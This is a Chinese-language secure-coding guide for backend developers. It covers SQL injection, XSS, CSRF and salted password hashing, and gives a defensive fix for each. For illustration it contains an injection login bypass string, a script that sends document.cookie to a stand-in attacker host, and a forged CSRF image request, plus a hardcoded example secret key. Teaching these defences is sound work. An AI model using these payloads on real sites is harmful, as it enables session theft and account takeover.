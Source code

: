 ```yaml
---
title: Security
permalink: /backend/security/
tags:
  - backend
  - security
---
```


---

你可能覺得“安全是安全專家的事”，但一個小小的安全漏洞就可能導致用戶數據洩露、服務癱瘓、公司聲譽掃地。在現代軟體開發中，安全是每個開發者的責任。一個SQL注入漏洞，就可能讓你的整個數據庫被拖走。

本指南將從開發者的視角出發，介紹最常見的安全威脅以及如何在代碼層面進行有效防禦。

- **目標讀者**: 所有希望編寫更安全代碼的軟體開發者。
- **你將學到**: 如何識別和修復常見的 Web 安全漏洞，並建立“安全第一”的開發思維。

---

## 核心防禦策略

### 1. 永遠不要相信用戶的輸入——輸入驗證與過濾

**威脅**: 攻擊者可以通過輸入惡意數據來執行非預期的操作。最經典的例子就是 **SQL 注入 (SQL Injection)**。

**攻擊場景**:
假設你有一個登錄查詢：
```sql
SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "';
```
如果一個攻擊者在用戶名輸入框中填入 `admin' --`，那麼實際執行的 SQL 將變為：
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '...';
```
`--` 在 SQL 中是註釋符，後面的所有內容都被忽略了。攻擊者就這樣繞過了密碼驗證，成功以 `admin` 用戶身份登錄。

**防禦措施：參數化查詢 (Parameterized Queries)**
永遠不要手動拼接 SQL 字符串。使用你所用語言或框架提供的參數化查詢（也稱為預備語句，Prepared Statements）。

```python
# Python (使用 psycopg2 庫) 的正確做法
cursor.execute(
    "SELECT * FROM users WHERE username = %s AND password = %s",
    (username, password) # 元組中的值會被安全地處理，而不是直接插入查詢字符串
)
```
這樣做，數據庫驅動會將用戶輸入作為純數據處理，而不是作為 SQL 命令的一部分，從根本上杜絕了 SQL 注入的可能。

---

### 2. 別讓攻擊者在你的網站上“貼小廣告”——防禦 XSS

**威脅**: **跨站腳本攻擊 (Cross-Site Scripting, XSS)** 是指攻擊者將惡意腳本注入到你的網頁中，當其他用戶瀏覽這個頁面時，惡意腳本就會在他們的瀏覽器中執行。

**攻擊場景**:
在一個有評論功能的網站上，如果你的後端直接將用戶提交的評論內容顯示在頁面上，攻擊者可以提交這樣的評論：
```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```
當其他用戶查看這條評論時，他們的瀏覽器會執行這段腳本，將他們的 Cookie（可能包含 Session 信息）發送到攻擊者的伺服器。攻擊者就可以利用這個 Cookie 冒充用戶登錄。

**防禦措施：輸出編碼 (Output Encoding)**
在將任何來自用戶的內容顯示到頁面前，對其進行 HTML 編碼。這會將特殊字符（如 `<`、`>`）轉換為它們的 HTML 實體表示（如 `&lt;`、`&gt;`）。

-   **原則**: 瀏覽器會將 `&lt;script&gt;` 作為純文本顯示出來，而不會將其作為標籤來執行。
-   **實戰**: 大多數現代模板引擎（如 Jinja2, EJS, ERB）默認都會進行輸出編碼。你需要確保這個功能是開啟的。

```jinja
{# Jinja2 模板引擎會自動進行編碼 #}
<div>{{ user_comment }}</div>
```
渲染後的 HTML 將是：
```html
<div>&lt;script&gt;fetch(...)&lt;/script&gt;</div>
```
這樣惡意腳本就失效了。

---

### 3. 確認指令是你本人下達的——防禦 CSRF

**威脅**: **跨站請求偽造 (Cross-Site Request Forgery, CSRF)** 是指攻擊者誘騙已登錄的用戶在不知情的情況下，向你的網站發送一個惡意的請求。

**攻擊場景**:
1.  假設你的網站有一個“修改郵箱”的功能，請求的 URL 是 `https://example.com/change_email?new_email=...`。
2.  用戶已經登錄了你的網站。
3.  攻擊者製作了一個惡意網頁，其中包含一張看不見的圖片，其 `src` 指向你的修改郵箱接口：
    ```html
    <img src="https://example.com/change_email?new_email=attacker@evil.com" width="0" height="0">
    ```
4.  攻擊者誘騙用戶訪問這個惡意網頁。
5.  用戶的瀏覽器會自動加載這張“圖片”，因為用戶處於登錄狀態，瀏覽器會自動帶上 `example.com` 的 Cookie。你的伺服器收到請求後，認為是合法操作，於是將用戶的郵箱修改為攻擊者的郵箱。

**防禦措施：CSRF Token**

-   **工作流程**:
    1.  當用戶訪問表單頁面時，伺服器生成一個隨機、唯一的 Token（CSRF Token），並將其嵌入到表單的一個隱藏字段中。同時，伺服器也將這個 Token 存儲在用戶的 Session 中。
    2.  當用戶提交表單時，這個 Token 會隨表單一起發送到伺服器。
    3.  伺服器比較表單提交的 Token 和 Session 中存儲的 Token。如果兩者匹配，則處理請求；如果不匹配，則拒絕請求。

-   **原理**: 攻擊者無法獲取用戶 Session 中的 Token，因此無法偽造合法的請求。

```python
# Flask (使用 Flask-WTF 擴展) 的 CSRF 保護
from flask_wtf.csrf import CSRFProtect

app = Flask(__name__)
app.config['SECRET_KEY'] = 'a-secret-key-for-sessions'
csrf = CSRFProtect(app)

# 在模板的表單中，插入 {{ form.csrf_token }}
# Flask-WTF 會自動處理 Token 的生成和驗證
```

---

### 4. 保護你的用戶憑證——安全的密碼存儲

**威脅**: 如果你以明文形式存儲用戶密碼，一旦數據庫洩露，所有用戶的賬戶都將暴露在風險之中。

**錯誤的做法**: 直接存儲密碼，或者使用像 MD5、SHA1 這樣過時的哈希算法。這些算法很容易被“彩虹表”攻擊破解。

**正確的防禦措施：使用現代的、加鹽的哈希算法**

-   **核心概念**:
    -   **哈希 (Hashing)**: 將任意長度的輸入轉換為固定長度的輸出，且該過程不可逆。
    -   **鹽 (Salting)**: 在對密碼進行哈希之前，為每個密碼附加一個隨機生成的、唯一的字符串（鹽）。這樣，即使兩個用戶設置了相同的密碼，由於鹽不同，它們存儲在數據庫中的哈希值也完全不同。

-   **推薦算法**: **Argon2** (目前的競賽冠軍), **scrypt**, 或 **bcrypt**。

```python
# Python (使用 passlib 庫)
from passlib.context import CryptContext

# 推薦使用 Argon2
pwd_context = CryptContext(schemes=["argon2"], deprecated="auto")

# 哈希密碼 (包含了自動生成的鹽)
def hash_password(password):
    return pwd_context.hash(password)

# 驗證密碼
def verify_password(plain_password, hashed_password):
    return pwd_context.verify(plain_password, hashed_password)

# 存儲在數據庫中的將是 hash_password() 返回的長字符串
```

---

## 安全開發的思維檢查清單

-   [ ] **數據庫交互**: 我是否所有 SQL 查詢都使用了參數化？
-   [ ] **前端渲染**: 我是否對所有由用戶提供的、要在頁面上顯示的內容都進行了輸出編碼？
-   [ ] **狀態變更操作**: 我是否對所有會引起狀態變更的請求（特別是 POST, PUT, DELETE）都啟用了 CSRF 保護？
-   [ ] **用戶認證**: 我是否使用了 Argon2 或 bcrypt 等現代算法來存儲密碼哈希？
-   [ ] **依賴管理**: 我是否定期掃描並更新我的項目依賴（如 `npm audit`, `pip-audit`），以修復已知的安全漏洞？
-   [ ] **權限控制**: 我的 API 是否嚴格檢查了用戶是否有權限執行請求的操作（授權）？
-   [ ] **日誌記錄**: 我是否記錄了足夠的信息以便在安全事件發生後進行追溯？但同時，我是否避免在日誌中記錄密碼、Token 等敏感信息？